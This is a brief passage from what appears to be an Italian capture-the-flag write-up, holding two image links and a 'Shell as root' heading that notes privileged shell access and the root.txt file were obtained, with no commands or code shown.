

## Shell as root

Si ottiene l'accesso alla shell privilegiata e al file root.txt:


